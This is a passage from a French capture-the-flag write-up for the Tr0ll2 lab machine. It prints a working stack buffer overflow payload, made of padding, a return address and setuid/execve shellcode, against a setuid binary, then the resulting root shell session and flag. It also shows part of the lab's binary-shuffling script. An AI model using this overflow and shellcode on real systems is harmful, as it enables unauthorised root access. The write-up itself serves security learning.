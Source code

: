 ```bash
    # check size
    if [ ! $MaxSize -eq 0 ]; then
        # maxSize is in MB
        MaxSize=$(($MaxSize*1024))

        #get current time
        now=$(date --date=$(date --iso-8601) +%s)
        MinAge=$(($MinAge*24*60*60))

        # reverse-sort by mtime
        for file in $(ls -rt $Cache/*.deb 2>/dev/null); do
            du=$(du -s $Cache)
            size=${du%%/*}
```

Vu qu'il s'agit de la tache qui gère le cache APT il est possible que certaines conditions doivent être réunies pour entrer dans cette section du code.

On pourrait s'attendre que les binaires qui appellent `system()` soit vulnérables à *Shellshock* mais ça ne semble pourtant pas être le cas.

L'exploitation du buffer overflow est en tout point similaire à celui du [CTF Underdist #3](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Underdist%20%233%20de%20VulnHub.md) avec les même conditions donc je n'entrerais pas dans les détails : il y a juste le nombre d'octets avant l'adresse de retour et l'adresse de retour à changer.

Rendez-vous sur l'autre writeup pour les détails de l'exploitation.

```bash
noob@Tr0ll2:~$ /nothing_to_see_here/choose_wisely/door1/r00t `python -c 'print "A"*268 + "\x55\xea\xe2\xb7" + "\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"'`
# id
uid=0(root) gid=1002(noob) groups=0(root),1002(noob)
# cd /root
# ls
Proof.txt  core1  core2  core3  core4  goal  hardmode  lmao.zip  ran_dir.py  reboot
# cat Proof.txt
You win this time young Jedi...

a70354f0258dcc00292c72aab3c8b1e4
```

## Sous le capot

Le CTF a un script qui change au démarrage quel binaire setuid root fait telle ou telle tache :

```python
#!/usr/bin/env python
import random
import shutil
import os

source1 = "/root/core1/"
source2 = "/root/core2/"
source3 = "/root/core3/"
source4 = "/root/core4/"

dest= "/nothing_to_see_here/choose_wisely/"

lottery = random.randrange(1,5)

def choice():
        if lottery == 1:
                os.system("rm -r /nothing_to_see_here/*")
                shutil.copytree(source1, dest, symlinks = False, ignore = None)
```